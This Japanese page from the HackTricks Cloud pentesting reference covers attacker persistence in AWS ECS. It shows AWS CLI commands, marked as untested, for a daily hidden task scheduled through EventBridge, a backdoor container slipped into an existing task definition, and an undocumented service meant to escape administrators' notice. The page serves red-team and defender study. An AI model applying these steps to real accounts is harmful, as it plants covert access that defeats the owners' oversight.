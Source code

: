 # AWS - ECS 永続性

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もし **HackTricks であなたの会社を宣伝したい**場合や、**PEASS の最新バージョンにアクセスしたい**場合、または HackTricks を PDF でダウンロードしたい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式の PEASS & HackTricks スワッグ**](https://peass.creator-spring.com) を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を見つけてください。これは私たちの独占的な [**NFT**](https://opensea.io/collection/the-peass-family) のコレクションです
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に参加するか、私を **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) で **フォロー**してください。
* **ハッキングのトリックを共有するために、PR を** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **の GitHub リポジトリに提出してください。**

</details>

## ECS

詳細については、以下を参照してください：

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### 隠し定期的な ECS タスク

{% hint style="info" %}
TODO: テスト
{% endhint %}

攻撃者は、Amazon EventBridge を使用して隠し定期的な ECS タスクを作成することができます。これにより、悪意のあるタスクの実行を定期的にスケジュールすることができます。このタスクは、偵察、データの外部への持ち出し、または AWS アカウント内での永続性の維持などを行うことができます。
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
{
"Id": "malicious-ecs-task-target",
"Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
"RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
"EcsParameters": {
"TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
"TaskCount": 1
}
}
]'
```
### 既存のECSタスク定義にバックドアコンテナを追加する

{% hint style="info" %}
TODO: テスト
{% endhint %}

攻撃者は、既存のECSタスク定義に**ステルスバックドアコンテナ**を追加することができます。このバックドアコンテナは、正規のコンテナと並行して実行され、持続性を持ち、悪意のある活動を行うために使用されることがあります。
```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
{
"name": "legitimate-container",
"image": "legitimate-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
},
{
"name": "backdoor-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": false
}
]'
```
### 未公開のECSサービス

{% hint style="info" %}
TODO: テスト
{% endhint %}

攻撃者は、悪意のあるタスクを実行する**未公開のECSサービス**を作成することができます。タスクの希望数を最小に設定し、ログ記録を無効にすることで、管理者が悪意のあるサービスに気付くのが難しくなります。
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```
<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もし **HackTricks で会社を宣伝したい** または **PEASS の最新バージョンにアクセスしたい** または **HackTricks を PDF でダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式の PEASS & HackTricks スワッグ**](https://peass.creator-spring.com) を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を見つけてください、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションです
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) を **フォロー** してください。
* **ハッキングのトリックを共有するために、PR を** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **の GitHub リポジトリに提出してください。**

</details>
